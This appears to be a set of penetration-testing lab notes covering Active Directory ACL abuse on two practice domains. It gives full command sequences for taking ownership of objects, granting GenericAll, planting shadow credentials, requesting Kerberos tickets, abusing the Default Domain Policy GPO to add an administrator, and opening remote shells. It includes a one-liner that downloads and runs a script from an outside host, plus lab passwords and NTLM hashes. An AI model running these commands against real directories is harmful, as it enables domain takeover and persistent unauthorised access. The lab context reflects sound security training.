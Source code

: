 # ACL Abuse and Shadow Credential

## Case 1

## Enumeration&#x20;

### Bloodhound&#x20;

```bash
# DC FQDN should be defined in DNS server or host file.
cme ldap $RHOST -u library -p library --bloodhound -ns $RHOST -c all
```

<figure><img src="../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

Amelia.Griffth (1) is a member of legacy group (2), which has WriteDACL (3) to GPO ADM Account (4). The GPO ADM has GenericAll (5) to Default Domain policy GPO (6).  The Privilege Escalation step should be:&#x20;

* Change WriteDACL to GenericAll to Amelia.Griffiths to abuse the GPO ADM account.&#x20;
* Create a Shadow account for GPO ADM account for your backdoor access (or just change the password of GPO ADM account).&#x20;
* Create a new task in the Default Domain policy GPO with the shadow account credential or new password changed.&#x20;

### Execution&#x20;

{% code overflow="wrap" %}
```bash
# Import Powerview
PS> iex (new-Object Net.WebClient).DownloadString('http://10.8.0.251/privesc/PowerView.ps1')|Import-Module PowerView.ps1

# Search the owner of the GPO and set the onwer to Amelia.Griffiths (Your owned account)
PS> Get-ADUser -Identity "gpoadm" | ForEach-Object { Get-ACL "AD:\$($_.DistinguishedName)" | Select-Object -ExpandProperty Owner }
PS> Set-DomainObjectOwner -Identity gpoadm -OwnerIdentity Amelia.Griffiths

# Add GenericAll to Amelia.Griffiths, targetting to GPOADM account.  

PS> Add-DomainObjectAcl -Rights 'All' -TargetIdentity "GPOADM" -PrincipalIdentity "Amelia.Griffiths" -Verbose

# 1) Shadow Account case 

# 1.1) Create a Shadow account 
.\Whisker.exe add /target:gpoadm /domain:baby2.vl /dc:dc.baby2.vl /path:C:\temp\cert.pfx /password:Password0-

# 1.2) Get TGT 
.\Rubeus.exe asktgt /user:gpoadm /certificate:C:\temp\cert.pfx /password:"Password0-" /domain:baby2.vl /dc:dc.baby2.vl /getcredentials /show

# 2) Change the password case 

PS> $UserPassword = ConvertTo-SecureString 'Password0-' -AsPlainText -Force
PS> Set-DomainUserPassword -Identity GPOADM -AccountPassword $UserPassword 

# Abuse GPO
# Check Bloodhound for GPO-id for Default Domain policy GPO. 

# NTLM hash credential
python3 pygpoabuse.py baby2.vl/GPOADM -hashes :51B4E7AEE2FBDD4E36F2381115C8FE7A -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -command 'net localgroup administrators GPOADM /add' -dc-ip $RHOST

# Passowrd credential 
python3 pygpoabuse.py baby2.vl/GPOADM:'Password0-' -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -command 'net localgroup administrators GPOADM /add' -f -dc-ip 10.10.91.214

# Update the GPO 
gpupdate /force

# Check the command result
net user gpoadm

# Connect to the Target
impacket-psexec baby2.vl/gpoadm@$RHOST -hashes :51B4E7AEE2FBDD4E36F2381115C8FE7A
```
{% endcode %}





## Case 2

## Preparation

{% code overflow="wrap" %}
```bash
# Get TGT for a user
impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl' -dc-ip $RHOST

# Inject it into memory 
export KRB5CCNAME=./d.klay.ccache 
```
{% endcode %}

## Enumeration

### LDAP

```bash
crackmapexec ldap dc.absolute.htb --use-kcache --users 
```

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

### SMB&#x20;

```
crackmapexec smb dc.absolute.htb --use-kcache --shares
```

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

### Bloodhound

{% code overflow="wrap" %}
```bash
bloodhound.py -k -u m.lovegod -p AbsoluteLDAP2022! --auth-method kerberos -d absolute.htb -dc dc.absolute.htb -ns 10.129.228.64 --dns-tcp --zip -c All
```
{% endcode %}

## Exploitation - ACL Abuse and Shadow Credential

Get a Bloodhound result below. The m.lovegod owns the Network Audit group, which has `GenericWrite` on the winrm\_user user. &#x20;

To get access to the machine, I’ll first I’ll need to give m.lovegod write access on the Network Audit group. Then I can add m.lovegod to the group. Finally, I can use those permissions to create a shadow credential for the winrm\_user account to access to the machine via evil\_winrm.&#x20;

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Update the ownership of the user to add a 'write permission'.&#x20;

{% code overflow="wrap" %}
```bash
# Domain: absolute.htb
# User: m.lovegod
# Group: Network Audit

python3 /opt/python/impacket/impacket/examples/owneredit.py -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -new-owner m.lovegod -target 'Network Audit' -action write
```
{% endcode %}

Add the full control of Group to the user.&#x20;

{% code overflow="wrap" %}
```bash
# Domain: absolute.htb
# User: m.lovegod
# Group: Network Audit

python3 /opt/python/impacket/impacket/examples/owneredit.py -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -new-owner m.lovegod -target 'Network Audit' -action write
```
{% endcode %}

Add the user to the group.&#x20;

{% code overflow="wrap" %}
```bash
# Domain: absolute.htb
# User: m.lovegod
# Group: Network Audit
Kali> kinit m.lovegod
Kali> net rpc group addmem "Network Audit" -U 'm.lovegod' -k -S dc.absolute.htb m.lovegod

# or 
Kali> net rpc group members "Network Audit" -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb
```
{% endcode %}

Create a Shadow Credential.&#x20;

{% code overflow="wrap" %}
```bash
# Let's find ADCS environment. You will see some ADCS configurations. 
KRB5CCNAME=./d.klay.ccache  certipy find -username m.lovegod@absolute.htb -k -target dc.absolute.htb 

# Let's add the shadow credential to the winrm_user user 
KRB5CCNAME=./d.klay.ccache certipy shadow auto -username m.lovegod@absolute.htb -account winrm_user -k -target dc.absolute.htb 

# Let's connect to the machine
KRB5CCNAME=./winrm_user.ccache evil-winrm -i dc.absolute.htb -r absolute.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

